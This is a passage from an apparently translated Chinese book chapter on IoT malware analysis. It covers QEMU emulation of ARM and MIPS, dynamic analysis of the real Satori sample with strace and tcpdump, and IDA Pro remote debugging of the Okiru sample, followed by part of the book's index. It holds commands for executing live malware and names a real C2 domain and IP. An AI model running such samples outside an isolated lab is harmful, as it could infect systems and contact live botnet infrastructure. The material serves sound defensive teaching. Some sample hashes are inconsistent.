| i386/ | 2014-01-06 18:29 | - | |
| kfreebsd-amd64/ | 2014-01-06 18:29 | - | |
| kfreebsd-i386/ | 2014-01-06 18:29 | - | |
| mips/ | 2015-03-15 19:07 | - | |
| mipsel/ | 2014-06-22 09:55 | - | |
| powerpc/ | 2014-01-06 18:29 | - | |
| sh4/ | 2014-01-06 18:29 | - | |
| sparc/ | 2014-01-06 18:29 | - | |

图 25-12 QEMU 虚拟机存储库

从“armel”目录下载所有 wheezy 版本的二进制文件到你的 Ubuntu-VM。另外，确保将 Ubuntu-VM 配置为桥接模式。


**注意** armel 和 armhf 之间的主要区别在于受支持的 ARM 版本：armel 支持较旧的版本，在处理旧系统时非常有用。

现在通过执行以下命令启动 ARM 系统：

```
qemu-system-arm -M versatilepb -kernel vmlinuz-3.2.0-4-versatile -initrd initrd.img-3.2.0-4-versatile -hda debian_wheezy_armel_standard.qcow2 -append "root=/dev/sda1" -monitor stdio -vnc 192.168.1.200:1 -redir tcp:6666::22
```

monitor 选项提供一个 QEMU Shell 以与 QEMU-Guest 交互，在出现问题时可用于关闭机器。我们还添加了 vnc 选项，提供 Ubuntu-VM 的 IP 地址，默认在端口 5901 上启动一个 VNC Server 实例。访问它需要 VNC 客户端；不需要凭据，尽管可以通过 QEMU Shell 设置凭据。这有助于观察启动过程并检测该阶段的任何问题。最后，redir 选项用于从 Ubuntu-VM 通过 SSH 连接到 QEMU-Guest。这是通过端口重定向完成的，因为默认情况下 QEMU-Guest 配置为 NAT 设备，无法直接访问。因此，我们需要连接到 Ubuntu-VM 上的本地端口 6666，该端口将重定向到 QEMU-Guest 机器上的端口 22（SSH）。要使用的命令如下：

```
ssh -p 6666 root@localhost
```

该机器的默认用户名和密码均为“root”。图 25-13 显示 ARMEL 系统已启动，我们已登录到系统中。


图 25-13 通过 VNC 客户端观察启动过程

现在是时候安装恶意软件分析期间所需的所有工具了：

- GDBServer 允许我们执行远程调试
- Tcpdump 允许我们捕获网络流量
- Strace 允许我们在恶意软件执行期间记录系统调用

在继续之前，重要的是通过运行以下命令来更新系统：

```
root@debian-armel:~# apt-get update
```

请注意，这些预构建镜像始终会抛出以下错误：

```
W: There is no public key available for the following key IDs: 9D6D8F6BC857C906
W: There is no public key available for the following key IDs: 7638D0442B90D010
W: There is no public key available for the following key IDs: 7638D0442B90D010
```

要修复此问题，请执行以下命令：

```
root@debian-armel:~# apt-get install debian-keyring debian-archive-keyring
```

现在，再次执行更新命令，它应该可以工作了。最后，必要的工具按如下方式安装：

```
root@debian-armel:~# apt-get install gdb tcpdump strace
```

现在所有需要的工具都已安装，你可以运行恶意软件了。但是，这超出了本练习的范围。有关详细信息，请参阅 Lab 25-2。请注意，你可以按照完全相同的过程通过 QEMU 运行其他架构，例如 MIPS。你只需要从存储库下载相应的文件即可。

## IoT 恶意软件动态分析

如前所述，有多种选项可用于在受监控的环境中执行基于 Windows 的恶意软件，以动态提取指标。Cuckoo Sandbox 和 Payload Security 等解决方案就是两个示例。然而，在 ARM 或 MIPS 上进行动态分析时，仍然没有可靠的解决方案——至少没有免费可用的解决方案。因此，我们需要创建自己的环境。Lab 25-2 详细介绍了复制名为 Satori 的 IoT 恶意软件并提取基于网络和主机的指标所需遵循的步骤。

## Lab 25-2：IoT 恶意软件动态分析

在开始本实验室之前，请注意我们将使用在野外发现的真实恶意软件。因此，强烈建议你在与企业或家庭网络完全隔离的虚拟环境中运行它。同时，还建议你确保拒绝从客户端 VM 发起到主机的任何入站通信。

本实验室使用的样本 MD5 = ad52832a507cede6521e11556f7cbb95

像之前在 Lab 25-1 中描述的那样，通过 QEMU 启动你的 armel 模拟机器，但这次有一个重大变化：你需要将 -snapshot 选项添加到命令行中，以防止恶意软件对客户端硬盘造成永久性损坏。使用此选项时，下次重启机器时，恶意软件所做的任何修改都会消失，这完全符合我们在恶意软件分析过程中的需求。我们不想多次重复使用受感染的主机；每次迭代都必须是全新的开始。你可以通过 VNC 访问监控启动过程。一旦出现登录提示，请通过以下 scp 命令将恶意软件 (470.arm) 复制到 QEMU：

```
scp -P 6666 470.arm root@localhost:
```

如果你忘了，凭据是 root/root。文件成功复制后，登录到 ARM 机器并确保文件存在。然后将权限更改为 755，准备执行！

你需要另一个 shell 来运行 tcpdump 以捕获网络流量。可以使用以下命令启动网络流量捕获：

```
# tcpdump -i eth0 -n host 10.0.2.15 and tcp or udp and not port 23 -w 2_15.pcap
```

我们基本上是在说监听网络接口 eth0，只关注客户机的 IP 地址，并且只监听 TCP 或 UDP 端口（以避免 ARP 或其他噪音流量）。此外，因为我们处理的是基于 Mirai 的恶意软件，我们想要避开端口 23，该端口通常用于扫描互联网，并会因相同的目标端口而迅速增加捕获文件的大小。强烈建议不要在本地网络上这样做，因为你的 IP 可能会被 ISP 封禁。

在另一个终端中，通过执行以下命令来跟踪恶意软件的执行。最重要的选项可能是 -f（用于跟踪子进程，这一点非常重要，因为基于 Mirai 的恶意软件使用 fork 来最终隐藏自身以脱离父进程）和 -o（用于将收集到的信息存储到文件中）。

```
#strace -f -q -s 100 -o satori.out ./470.arm
```

一旦 strace 和 tcpdump 运行起来，你就可以随时监控这些文件的大小，并定期传输当前的捕获文件。具体取决于恶意软件，它可以运行几分钟、几小时，甚至几天。对于本实验，5 分钟后你可以停止恶意软件的执行（通常通过关闭机器来完成）。

通过查看捕获的流量，你可以识别恶意软件试图连接的攻击者主机（C2），如图 25-14 所示。

| 源 | 目标 | 协议 | 长度信息 |
| :--- | :--- | :--- | :--- |
| 10.0.2.15 | 8.8.8.8 | DNS | 82 标准查询 0x3730 A network.bigbotpein.com |
| 8.8.8.8 | 10.0.2.15 | DNS | 98 标准查询响应 0x3730 A network.bigbotpein.com A 177.67.82.48 |
| 10.0.2.15 | 8.8.8.8 | DNS | 82 标准查询 0x1c48 A network.bigbotpein.com |

图 25-14 恶意软件使用的 C2

如果你想了解在该站点上执行的操作的更多详细信息，可以查看 satori.out 输出文件，你可以轻松识别到解析后的 IP 177.67.82.48 的 Telnet 连接，如图 25-15 所示。


图 25-15 与 C2 的 Telnet 连接

此次捕获的持续时间显示恶意软件正在无限循环地尝试从主机获取响应，而该主机在测试时不可用。这是基于 Mirai 的恶意软件的正常行为，正在等待接收要执行的命令。

欢迎随意与该恶意软件交互，或按照相同方法执行其他样本。你最终将需要一个 strace 输出解析器来生成一份外观良好的报告。

## 架构无关动态分析平台 (PANDA)

PANDA 是一个用于架构无关动态分析的开源平台。虽然它不完全支持 MIPS 且尚处于早期实验阶段，但它绝对是一个值得关注的框架。PANDA 由 MIT 林肯实验室、纽约大学 (NYU) 和东北大学共同协作开发。它构建于 QEMU 之上用于仿真，并添加了多次记录和重放恶意软件执行的功能，这些执行过程会经过不同的插件，从而允许进行系统调用监控、污点分析等。它还包括一种在插件之间共享功能的机制，以避免工作重复。不幸的是，在我们的 ARM 恶意软件分析期间未找到稳定版本，因此我们决定不准备实验。不过，请务必关注 PANDA 并尝试一下。如果它能进入稳定版本，它有望成为 IoT 动态恶意软件分析的必备框架之一。

PANDA 可以从其 GitHub 仓库构建，该仓库还包含一个 Docker 镜像以简化安装过程。

## BeagleBone Black 开发板

有时候恶意软件无法在虚拟机上运行，或者高度依赖硬件，亦或者你只是在逆向一段车载信息娱乐系统代码。在这些情况下，强烈建议使用运行 ARM 系统的真实设备，而 BeagleBone Black 开发板正是此场景的首选：它的价格低于 60 美元，并且如果固件受到恶意软件影响，你随时可以重新刷写固件。该开发板基于 Cortex-A8 ARM 系统运行，配有 USB、以太网、HDMI 以及 2 x 46 针排针用于连接。

你只需为计算机下载 USB 驱动程序，如有需要则设置用于引导的 SD 卡（有关 BeagleBone Black 入门指南的 URL，请查看“进一步阅读”部分），然后通过 USB 将 BeagleBone 设备插入计算机，它应该会自动为你分配 192.168.6.x 或 192.168.7.x 网段中的一个 IP 地址。然后，你可以使用 SSH 客户端登录到你的 ARM 系统，该系统正在 IP 192.168.7.2 或 192.168.6.2 处等待你。

## 逆向工程 IoT 恶意软件

逆向工程是一项需要汇编语言知识的技能，汇编语言是微处理器使用的语言。其目标是在没有源代码的情况下理解程序的工作原理。传统上，大部分工作是在运行 Windows 或 Linux 操作系统的 Intel 微处理器上进行的，但随着 IoT 设备的指数级增长，理解 ARM 和 MIPS 架构已成为必然。本节总结了逆向运行在这些架构上的恶意软件所需的关键概念。

## ARM/MIPS 指令集速成课程

在深入 IoT 恶意软件调试之前，你需要理解一些关键概念，这些概念在逆向这类威胁时会让你事半功倍。好消息是 ARM/MIPS 中的指令数量比 x86 架构少得多，因此你上手不会太难。

## 调用约定

与往常一样，在学习新架构时，理解调用约定是必须的。你需要理解参数是如何传递给函数的，以及在哪里获取返回值。

让我们编写一些简单的 ARM 代码并对其进行编译，以观察调用约定的实际运作情况：

```
unsigned int function ( unsigned int, unsigned int, unsigned int, unsigned int,
unsigned int, unsigned int, unsigned int );
unsigned int mifunction ( void ) {
return(function(0,1,2,3,4,5,6));
}
```

现在我们只需使用交叉编译器对其进行编译：

```
# ./arm-elf-gcc -O2 -c call-arm.c -o call-arm
```


注意：一个包含交叉编译器以及 GDB、Objdump 等其他有用工具的虚拟机（支持 ARM、MIPS、PowerPC 及许多其他架构）可在 http://kozos.jp/vmimage/burning-asm.html 上找到。请注意，这是日语版本。

让我们通过运行以下命令来查看反汇编结果：

```
# arm-elf-objdump -D call-arm
```

图 25-16 展示了调用约定。我们将根据左侧列中的行号来引用汇编代码，从 0、4、8、c 一直延续到第 40 行。

```
Disassembly of section .text:
00000000 <mifunction>:
  0:	e1a0c00d	mov	ip, sp
  4:	e92dd800	push	{fp, ip, lr, pc}
  8:	e3a02002	mov	r2, #2
  c:	e24dd00c	sub	sp, sp, #12
 10:	e24cb004	sub	fp, ip, #4
 14:	e3a0c004	mov	ip, #4
 18:	e3a0e005	mov	lr, #5
 1c:	e58dc000	str	ip, [sp]
 20:	e3a01001	mov	r1, #1
 24:	e08cc002	add	ip, ip, r2
 28:	e3a03003	mov	r3, #3
 2c:	e3a00000	mov	r0, #0
 30:	e58de004	str	lr, [sp, #4]
 34:	e58dc008	str	ip, [sp, #8]
 38:	ebffffff	bl	0 <function>
 3c:	e24bd00c	sub	sp, fp, #12
 40:	e89da800	ldm	sp, {fp, sp, pc}
```

图 25-16 ARM 调用约定

数字 0 到 3 会直接传递给汇编代码中的寄存器 r0 到 r3。请查看图 25-16 左侧的行号 2c、20、8 和 28。值为 4 的参数首先在行 14 被移动到寄存器 ip，然后在行 1c 通过（栈指针）寄存器 [sp] 存储到栈中。值为 5 的参数使用相同的过程；它在行 18 被赋值，然后在行 30 存储到 [sp, #4]（栈指针 + 4）。最后，对于值为 6 的最后一个参数，其值首先在行 24 被计算出来，即将“ip = 4”的当前值（在行 14 中计算得出）与“r2 = 2”的当前值（在行 8 中赋值）相加，总计为 6。最后，该值在行 34 被存储到栈偏移量 [sp, #8]（栈指针 + 8）处。

现在我们做同样的事情，但这次使用 MIPS 工具链（mips-elf-gcc）进行编译。结果如图 25-17 所示。同样，我们将根据左侧的行号来引用汇编代码。


Disassembly of section .text:

```
00000000 <mifunction>:
   0:  27bdfff8  addiu sp,sp,-40
   4:  24020004  li  v0,4
   8:  afa20010  sw  v0,16(sp)
   c:  24030005  li  v1,5
  10:  24020006  li  v0,6
  14:  00002021  move a0,zero
  18:  24050001  li  a1,1
  1c:  24060002  li  a2,2
  20:  24070003  li  a3,3
  24:  afbf0020  sw  ra,32(sp)
  28:  afa30014  sw  v1,20(sp)
  2c:  0c000000  jal 0 <mifunction>
  30:  afa20018  sw  v0,24(sp)
  34:  8fbf0020  lw  ra,32(sp)
  38:  00000000  nop
  3c:  03e00008  jr  ra
  40:  27bd0028  addiu sp,sp,40
```

图 25-17 MIPS 调用约定

这次，参数 0 到 3 通过寄存器 a0–a3 在行 14、18、1c 和 20（左侧）直接传递。然后，值为 4 的参数在行 4 被赋值，并存储在 [stack pointer + 16]。然后，值为 5 的参数在行 c 被赋值，并在行 28 存储在 [stack pointer + 20]。最后，值为 6 的参数在行 10 被赋值，并在行 30 存储在 [stack pointer + 24]。

随时可以对其他架构执行此练习，以验证调用约定。

## IoT 汇编指令集速查表

表 25-1 提供了非常实用的速查表，您可以在其中轻松找到常用寄存器的用法以及有助于逆向分析的操作。

| 指令 | x86 | ARM | MIPS |
| :--- | :--- | :--- | :--- |
| 传递函数参数 | PUSH 指令 | R0–R3 寄存器 如果需要更多参数，则通过栈指针传递 | A0–A3 寄存器 如果需要更多参数，则通过栈指针传递 |
| 调用函数 | CALL 指令 | BX/BL 寄存器 | JALR/JR/JAL 寄存器 |
| 返回地址 | RETN 指令 | LR 寄存器 ARM, Thumb | RA 寄存器 |
| 指令指针 | EIP 寄存器 | R15 (PC) 寄存器 | PC 寄存器 |
| 函数返回值 | EAX 寄存器 | R0–R1 寄存器 | V0–V1 寄存器 |
| 系统调用 | SYSENTER SYSCALL (64 位) 服务 ID: EAX | SWI/SVC 指令 服务 ID: R7 或硬编码 参数: R0–R3 | 服务 ID: V0 寄存器 参数: A0–A2 |

表 25-1 多架构参考

有关架构特定指令的完整详细信息，请查看以下网址：

- ARM http://infocenter.arm.com/help/topic/com.arm.doc.ihi0042f/IHI0042F_aapc
- MIPS www.mrc.uidaho.edu/mrc/people/jff/digital/MIPSir.html

## 实验 25-3：IDA Pro 远程调试与逆向分析

实验 25-3 的要求如下：

- 已获许可的 IDA Pro
- Ubuntu 16.04 虚拟机
- MIPS Qemu 环境（参见实验 25-1）
- Okiru 恶意软件 (MIPS 32 位): okiru.mips (MD5: 7a38ee6ee15bd89d50161b3061b763ea)

既然您已经掌握了基本汇编指令的知识，我们就可以开始调试恶意软件了。


NOTE 此类工作的最佳建议是通过 IDA Pro 或 radare2 等反汇编器进行静态分析，并使用 IDA Pro、Immunity Debugger（OllyDBG 分支）或 GDB 等工具进行动态调试。

本实验介绍了两种调试 IoT 恶意软件的方法：通过 QEMU 独立版本的快速方法，以及通过 QEMU 系统选项的完整系统模拟。我们还将讨论每种方法的优缺点。

## 模拟二进制文件

调试 IoT 恶意软件样本的快速方法是仅模拟二进制文件，而不是整个系统。由于受限环境，以及网络通信和系统检查可能失败，这有一些限制，但这绝对是深入了解恶意软件细节的一个绝佳且快速的起点。

要运行此操作，请登录到您的 Ubuntu VM（在此情况下运行 VirtualBox），将恶意软件二进制文件复制到系统中（通过 SSH 或拖放），并按顺序执行以下命令：

```
$ mkdir ~/GH5
$ cd ~/GH5
$ copy ~/okiru.mips ~/GH5/
$ cp `which qemu-mips` .
$ chroot ./qemu-mips -g 12345 ./okiru.mips
```

图 25-18 显示，我们的实例已通过 QEMU 启动，并且由于 -g 选项，我们还生成了一个 GDBServer，它已在入口点停止二进制执行，并正在等待调试器连接到 TCP 端口 12345。


图 25-18 使用 QEMU 启动独立模拟

现在，在安装了 IDA Pro 的系统上，打开刚刚执行的完全相同的 okiru-mips 二进制文件，然后转到 调试器 | 选择调试器 | 远程 GDB 调试器。

选择 调试器 | 进程选项 并填写选项，确保输入二进制文件在 Ubuntu VM（被调试程序）中的路径，以及 IP 地址和端口，然后单击 OK（参见图 25-19）。


图 25-19 调试器进程选项

最后但同样重要的是，在 IDA 中在程序入口点设置断点（在所需行上按 F2），以确保恶意软件执行在开头停止。

虽然这是预期行为，但有时会失败并一直执行到结束。这只是一个简单的检查。要运行它，请单击 调试器 | 开始进程。

将弹出一条警告，以确保您知道自己在做什么。单击 是 按钮。

您应会收到一条消息，表明已有进程正在被调试，这证实我们正在朝着正确的方向前进（参见图 25-20）。


### 图 25-20 已调试进程的确认

如果进程成功附加，您应会收到一条成功消息，如图 25-21 所示。如果发生错误，请检查配置的参数。


### 图 25-21 成功确认

最后，您可以看到 IDA 已在二进制入口点地址 0x400260 处停止（参见图 25-22）。从这里，您可以开始逐过程进入每个函数（按 F7）或逐过程退出函数（按 F8）。


图 25-22 入口点处的调试器断点

这种方法的局限性在于，由于恶意软件不是在完整环境中运行，因此在 TCP/UDP 连接期间或在尝试读取/写入特定位置时可能会失败。为避免此限制，建议进行完整系统模拟。有关详情，请参见下一节。

## 模拟完整系统

现在让我们通过完整 QEMU 模拟运行恶意软件。为此，您可以在 QEMU VM 内安装 GDBServer，然后按照相同的过程远程附加到 IDA Pro 调试器。

您可以使用以下命令启动 MIPS 32 位系统，需考虑 -standalone 选项，该选项可确保镜像中没有永久更改，以及端口重定向到 12345，这将启用从 Ubuntu 主机端口 12345 到 QEMU VM 端口 12345 的端口重定向，GDBServer 将在该端口上运行：

```
$ qemu-system-mips -M malta -kernel vmlinux-3.2.0-4-4kc-malta
-hda debian_wheezy_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0"
-monitor stdio -standalone -vnc 192.168.1.200:1 -redir tcp:6666::22
-redir tcp:12345::12345
```

系统启动并运行后，您可以将恶意软件复制到 QEMU，并在端口 12345 上启动带有附加恶意软件的 GDBServer：

```
$scp -P 6666 okiru-p.mips root@localhost:
$ssh -p 6666 root@localhost
root@debian-mips:~# chmod 755 okiru.mips
root@debian-mips:~# gdbserver --multi 0.0.0.0:12345 ./okiru-p.mips
```

此时，只需按照前面描述的相同过程通过 GDBServer 将 IDA Pro 附加到恶意软件。唯一的区别是 MIPS 系统上的路径为 /root/okiru-p.mips，因此请相应进行更改。

图 25-23 显示 GDBServer 正在接收来自 IDA Pro 远程调试器（IP 192.168.1.185）的连接。


图 25-23 完整 QEMU 系统上的远程调试

这一次，由于您拥有系统的完整模拟，可以运行 iptables、tcpdump、strace 或任何其他工具来跟踪或限制恶意软件执行。

## IoT 恶意软件逆向分析练习

此时，我们已准备好所有环境来分析针对 ARM 和 MIPS 架构的 IoT 恶意软件，因此让我们进行这些威胁的逆向分析练习。

查看正在分析的样本，您可以看到它已被剥离符号。这样做是为了增加逆向分析人员的难度。由于没有函数名，分析时间会大幅增加，有时甚至无法完成。

```
$ file okiru.mips
okiru.mips: ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV),
statically linked, stripped
```

幸运的是，系统调用存在，因此可以通过创建 IDA Pro 插件或手动记录系统调用，开始重命名这些函数。

图 25-24 显示了一个指向服务 ID 0x104C（通过 V0 寄存器传递）的系统调用，该 ID 对应 API getsockname。


```
.text:00407C90 sub_407C90:
.text:00407C90
.text:00407C90 var_10= -0x10
.text:00407C90 var_8= -8
.text:00407C90 var_4= -4
.text:00407C90
.text:00407C90 li $gp, 0x4B540
.text:00407C90 addiu $gp, $t9
.text:00407C9C addiu $sp, -0x20
.text:00407CA0 sw $ra, 0x20+var_4($sp)
.text:00407CA4 sw $s0, 0x20+var_8($sp)
.text:00407CA8 sw $gp, 0x20+var_10($sp)
.text:00407CAC li $v0, 0x104C
.text:00407CB0 syscall 0
```

图 25-24 在 MIPS 上重命名系统调用

您可以在 https://w3challs.com/syscalls/ 上找到多种架构的出色系统调用参考。感谢上传它的人。

在处理 ARM 上的系统调用时，语法有所不同。在较新版本中，使用 svc 命令，并且每个调用的服务 ID 都被硬编码。图 25-25 显示了带有 ID 0x900005 的 okiru 恶意软件 (ad52832a507cde6521e11556f7cbb95) 的 ARM 版本，在此情况下，该 ID 对应于“open”函数调用。

```
:00010958 sub_10958 ; CODE XREF: sub 88
:00010958 ; sub 8DC0+1F0↑p ..
:00010958 var_18 = -0x18
:00010958 arg_0 = -0xC
:00010958 var_2 = -8
:00010958 var_3 = -4
:00010958
:00010958 STMFD SP!, {R1-R3}
:0001095C STMFD SP!, {R4,LR}
:00010960 SUB SP, SP, #4
:00010964 LDR R1, [SP,#0x18+var_r1]
:00010968 ANDS R3, R1, #0x40
:0001096C ADDNE R3, SP, #0x18+var_r3
:00010970 STRNE R3, [SP,#0x18+var_18]
:00010974 LDR R3, [SP,#0x18+var_r2]
:00010978 MOV R2, R3,LSL#16
:0001097C MOV R2, R2,LSR#16
:00010980 SVC 0x900005
:00010984 CMN R0, #0x1000
:00010988 MOV R4, R0
:0001098C BLS loc_109A0
:00010990 BL sub_10DAC
:00010994 RSB R3, R4, #0
:00010998 STR R3, [R0]
:0001099C MOV R4, #0xFFFFFFFF
:000109A0
```

图 25-25 在 ARM 上重命名系统调用

重命名系统调用后，整个二进制文件将更容易理解；从此，您可以应用与 Windows 环境中使用的相同逆向工程流程。最重要的信息之一是恶意软件试图连接的 IP 地址或域名。让我们来看看在 IoT 中这是什么样子（由于它是基于 Linux 的，实际上没有区别）。

我们在 0x4065C4 处设置了一个断点，得益于系统调用重命名，您知道它对应于“connect”函数调用（参见图 25-26）。因此，您可以通过查看定义来识别参数：


图 25-26 在 IDA Pro 中显示 sockaddr 结构

```
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```

由于您知道通过寄存器 A1 传递的第二个参数包含一个 sockaddr 结构，您可以要求 IDA 显示该寄存器的内存内容，方法是右键单击“内存窗口”（左下角窗口），然后选择“同步至” -> A1，如上图所示。通过查看以下代码中的 sockaddr_in 结构定义，您可以看到第一个参数是结构的长度，该参数是可选的，在此情况下未使用。您还可以看到第二个参数是 sin_family，内存中的数值为 00 02（大端序），对应于 AF_INET。接着是端口内容 00 35，这是 53（域名端口）的十六进制表示。最后，您会看到 IP 地址，对应于 08 08 08 08，一个公共 IP 地址。

```
struct sockaddr_in {
    uint8_t     sin_len;
    sa_family_t sin_family;
    in_port_t   sin_port;
    struct in_addr sin_addr;
    char        sin_zero[8];      /* unused */
};
```

虽然此特定连接与 C2 服务器无关，但它作为在内存中识别结构以及如何从中获取正确值的示例。

## 摘要

本章介绍了在处理医疗设备中的 RS-232 接口时应对挑战的方法——在处理 IoT 硬件时这种情况非常普遍。本章随后描述了在 IoT 恶意软件上执行动态分析的不同方法以及完成所需的设置。最后，本章中的实验展示了如何在 ARM 和 MIPS 架构上使用 IDA Pro 进行远程调试，以及如何进行基本的逆向工程。

## 进一步阅读

- BeagleBone Black http://beagleboard.org/getting-started

- 开发平台：

- BeagleBone Black https://beagleboard.org/black

- Raspberry Pi https://www.raspberrypi.org/

- ELF 参考 www.cs.cmu.edu/afs/cs/academic/class/15213-f00/docs/elf.pdf

- 字节序 https://en.wikipedia.org/wiki/Endianness

- 逻辑分析仪 https://www.saleae.com/

- PANDA 框架 https://github.com/panda-re/panda

- QEMU https://www.qemu.org/

- RS-232 串行端口 https://en.wikipedia.org/wiki/RS-232

- 沙箱：

- Cuckoo https://cuckoosandbox.org/blog/cuckoo-sandbox-v2-rc1

- Detux https://github.com/detuxsandbox/detux

- Satori IoT 恶意软件 http://blog.netlab.360.com/warning-satori-a-new-mirai-variant-is-spreading-in-worm-style-on-port-37215-and-52869-en/

- VirtualBox https://www.virtualbox.org/wiki/Downloads

VirtualBox 桥接模式配置 https://www.virtualbox.org/manual/ch06.xhtml#network_bridged

- & 符号，19

- && 运算符，195

- \ (反斜杠) 字符，229

- ` (反引号) 字符，203

- ' (单引号) 字符，347

- < (小于运算符)，21

- <= (小于或等于运算符)，21

- %s 格式标记，230

- %x 格式标记，230

- #$ 格式标记，231

- 0-day 漏洞利用，365

- 1-day 漏洞利用，364, 365

- 6LoWPAN 协议，499

- 32 位 Kali Linux，19, 503

- 64 位 Kali Linux，19, 468, 469

## A

- AARs (行动后报告)，140, 154

- 抽象语法树 (AST)，76

- 接入设备法令，10

- 动作元素，392

- 活动元素，392

- 执行目标阶段，152–153

- 自适应测试，136–139

- adb 命令，401

- add 命令，31

- Add-Persistence 函数，335

- 地址解析协议 (ARP)，537

- 地址空间布局随机化。另请参阅 ASLR

- 寻址模式，33

- Adleman, Len，465

- AES 加密，408, 440–441

- AFL 模糊测试器，61–64

- 行动后报告 (AARs)，140, 154

- 代理部分，Peach Pit，51

- AIDS 特洛伊木马恶意软件，418

- AJAX (异步 JavaScript)，348

- alert 函数，352

- 允许调用参数，72

- 替代结局，153

- 美国公民自由联盟 (ACLU)，112

- Amini, Pedram，77

- AMQP 协议，499

- 模数转换 (ADC) 分辨率，90

- 分析
  - 黑盒，405, 406–407
  - 协作，77–82
  - 崩溃，57–60
  - DEX，393–395
  - 恶意软件，402–407
  - 网络，84
  - 勒索软件，422–441
  - 漏洞，533–536
  - 另请参见动态分析；静态分析

- SDR 的分析阶段，96–103

- Androguard 项目，397

- android:name 属性，392

- Android 应用程序包。另请参阅 APK

- android 命令，400

- Android 开发者参考，393

- Android 平台，389–407
  - APK 存档格式，389–391
  - 应用程序清单，391–393
  - DEX 分析，393–395
  - DEX 反编译，396–398
  - DEX 反汇编，398–399
  - Droidbox 分析，405, 406–407
  - APK 模拟，399–402
  - Java 反编译，395–396
  - 恶意软件分析，402–407

- Android 虚拟设备 (AVD) 管理器，400–401

- AndroidManifest.xml 文件，391–393, 403

- Androperm 脚本，403

- 反调试检查，427–430

- API (应用程序编程接口)
  - Bugcrowd 功能，168–170
  - Shodan 搜索引擎，504–505
  - XFS 同步/异步，447

- APK (Android 应用程序包)，389–391
  - 使用 apktool 解码，391–392
  - 目录结构/文件，391
  - 说明，389–390
  - 在模拟器中运行，399–402

- apktool
  - 使用 baksmali 反汇编，399
  - 使用 apktool 解码 APK，391–392

- App Paths 注册表项，379

- Apple Store 应用程序解密，411–413
  - 应用程序差异比较，363–364
  - 应用程序元素，392

- 应用程序可选漏洞利用缓解，290

- 应用程序编程接口。另请参阅 API

- 应用程序
  - Android 平台，389–393
  - 从 Apple Store 解密，411–413
  - Web 漏洞利用，341–362
  - iOS 平台，409, 411–412
  - XSS 更改，348–350, 363–364
  - 另请参见移动应用程序

- apt-get 包管理器，530

- 任意内存


- 读取自, 229–232
- 写入至, 232–234
- 架构
  - ARM, 512, 558–559
  - 评估, 135
  - 主/从, 518–519
  - MIPS, 513, 558–559
  - 处理器, 28–29
  - RISC, 558
  - WOSA, 446
  - XFS, 446–447
- ArithLog 评级参数, 72
- 亚利桑那网络战靶场, 117
- ARM 架构, 512, 558–559
- ARMEL 和 ARMHF, 559, 561
- 调用约定, 565–566
- 速查表参考, 567
- 配置文件与应用, 513
- 相关资源, 526
- 系统调用重命名, 573
- 《孙子兵法》, 143, 465
- 凯文·阿什顿, 497
- ASLR（地址空间布局随机化）, 202
  - 绕过, 292–293
  - 通过内存泄漏击败, 299–316
  - 在 Kali Linux 上禁用, 231
  - 说明, 290–291
  - 高熵, 291
  - Linux 中的使用, 242, 251
  - Windows 中的使用, 289, 290–291
- 汇编语言, 30–34
  - 寻址方式, 33
  - 汇编, 34
  - 文件结构, 33–34
  - 与机器语言相比, 30
  - NASM 与 AT&T 语法, 30–33

- 评估
  - 外部, 137
  - 内部, 138–139
  - 渗透测试, 19
  - 物理安全, 137–138
  - 红队演练, 129–130, 136–139
  - 漏洞, 129, 533–536
- 非对称密钥算法, 436
- 异步调用, 447
- AT&T 汇编语法, 30–33
- ATM 机
  - 组件概述, 443–445
  - 使用中的功能步骤, 445–446
  - 物理和虚拟攻击, 453
  - 安装在其上的刷卡器, 452
  - XFS 标准, 446–451
- ATM 恶意软件, 443, 451–463
  - 受影响的银行, 453
  - 对策, 462
  - 受影响的客户, 452–453
  - 解剖技术, 455–462
  - 安装技术, 453–455
  - 交互方法, 453–454, 458–462
  - 相关资源, 462
- 攻击框架, 135
- 攻击向量
  - Linux 漏洞利用, 219–220
  - Windows 漏洞利用, 267–269
- AttackIQ FireDrill, 155
- 攻击
  - 干扰, 151–153
  - 模拟, 6–9
  - 识别, 5
- 自动化动态分析, 83–84
- 自动柜员机。*另见* ATM 机
- 自动化，安全, 154–155

- AVD（Android 虚拟设备）管理器, 400–401
- AV-TEST 研究所, 83

## B

- 后门，持久性, 333–336
- 坏字符, 271
- baksmali 反汇编器, 398–399
- Bandit 战争游戏, 116
- 带宽, 90
- 银行解决方案供应商委员会 (BSVC), 446
- 银行
  - 受 ATM 恶意软件影响的银行, 453
  - 使用的 XFS 标准, 446–451
- 布鲁斯·巴内特, 359
- bash Shell, 232
- 基本块, 80–81
- 基本块大小参数, 72
- BeagleBone 开发平台, 558, 564
- 行为分析, 84
- 二进制差分, 363–371
  - 应用程序差分, 363–364
  - 描述其过程, 363
  - 基于此的漏洞利用, 378–384
  - 基于此的实验练习, 369–371, 375–378, 379–384
  - Microsoft 补丁, 375–378, 379–384
  - 作为补丁差分, 364–365, 378–384
  - 相关资源, 384–385
  - 使用的工具, 365–371
- 二进制 .plist 文件, 410
- BinCrowd 插件, 77
- BinDiff 工具, 365, 366–367
- BinNavi 工具, 78, 80–82, 366
- 比特币, 418
- 位, 24
- Black Hat 会议, 114
- 黑盒模拟器环境
  - 在其中使用 Droidbox 监控 APK, 406–407
  - 在其中监控恶意软件样本, 405
- bladeRF 设备, 90
- 蓝队行动, 9, 127, 145–150
  - 常见挑战, 149–150
  - 事件响应计划, 147–150
  - 了解你的敌人, 145–146
  - 安全框架, 146–147
  - 跟踪响应活动, 134
  - 了解你的环境, 146
  - *另见* 紫队行动；红队行动
- Bluetooth 协议, 499
- 启动过程安全, 408
- 引导加载程序, 523–524
- PowerShell 引导, 326–328
- 自底向上方法, 437
- 约翰·博伊德, 150
- 斯蒂芬·布拉德肖, 54
- 断点
  - 硬件断点, 425–426
  - 内存泄漏错误, 306–313
  - 移除, 423–424, 428
  - strcpy 函数, 259–260
- 浏览器漏洞利用框架 (BeEF), 341
- 内存中的 .bss 节, 26
- BSTR 分配, 306
- 缓冲区
  - 说明, 27, 201
  - 利用小缓冲区, 214–216
  - 溢出检测, 284–286
- 缓冲区溢出, 201–216
  - 说明, 201–202
  - 本地漏洞利用, 207–216
  - meet.c 程序实验, 202–205
  - 影响, 206
  - 小缓冲区漏洞利用, 214–216
  - 栈溢出漏洞利用, 209–214
- 漏洞赏金计划, 161–175
  - BugCrowd 平台, 164–171
  - 争议, 163
  - 通过此谋生, 171–172
  - 历史与概念, 161
  - 提供的激励, 163
  - 事件响应与, 173–174
